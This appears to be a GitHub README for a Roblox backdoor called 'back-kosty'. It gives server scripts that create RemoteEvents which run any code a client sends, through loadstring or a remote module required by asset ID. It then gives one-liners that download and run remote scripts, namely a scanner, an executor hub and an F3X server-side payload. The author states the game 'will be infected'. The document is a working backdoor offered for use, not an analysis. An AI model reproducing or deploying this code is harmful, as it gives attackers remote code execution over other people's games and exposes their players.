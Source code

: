 # back-kosty
repository of my backdoor for test also this so epic :D
# how to install?
create in serverscriptservice the 2 scripts
# stape number 1
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "back-kosty"
backdoor.OnServerEvent:connect(function(player, SS)
	loadstring(SS)()
end)

# stape 2

local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "polaria"

backdoor.OnServerEvent:Connect(function(player, SS)
	local module = require(123255432303221)
	if type(SS) == "string" then
		module:Pload(SS)
	else
		warn("polaria failed")
	end
end)

# after that your game will be infected by back-kosty
# not loadstring (SERVERSIDE)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/scanner.lua", true))()
# loadstring 2 (LOCAL)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/executor/executorandhub.lua", true))()
# loadstring 3 (SERVERSIDE IN F3X)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/server-side/project%20360%20ONLY%20F3X%20GAMES.lua", true)()
